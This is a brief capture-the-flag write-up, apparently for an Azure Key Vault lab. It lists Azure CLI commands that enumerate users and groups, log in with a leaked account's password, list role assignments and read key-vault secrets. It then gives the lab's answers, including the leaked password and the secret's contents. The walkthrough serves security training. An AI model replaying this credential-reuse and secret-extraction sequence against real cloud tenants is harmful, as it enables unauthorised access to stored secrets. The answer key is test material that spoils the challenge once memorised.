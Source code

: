 
## day 16:  Azure 

Azure Key Vault is an Azure service that allows users to securely store and access secrets.


https://youtu.be/t1_FG5IUBcs


```
join lab > credentials tab > open lab Azure Portal
MFA > ask later > cancel (welcome to azure)

azure cloud shell > select bash > no storage account , Az-Subs-AoC

az ad signed-in-user show
az ad user list   # can skip this

az ad user list --filter "startsWith('wvusr-', displayName)"

az ad group list
az account clear

# Replace the values: email and password of the newly discovered account.
az login -u EMAIL -p PASSWORD


az role assignment list --assignee REPLACE_WITH_SECRET_RECOVERY_GROUP_ID --all

az keyvault list

az keyvault secret list --vault-name warevillesecrets

az keyvault secret show --vault-name warevillesecrets --name REDACTED


```



```
What is the password for backupware that was leaked?

R3c0v3r_s3cr3ts!

What is the group ID of the Secret Recovery Group?

7d96660a-02e1-4112-9515-1762d0cb66b7

What is the name of the vault secret?

aoc2024

What are the contents of the secret stored in the vault?

WhereIsMyMind1999
```
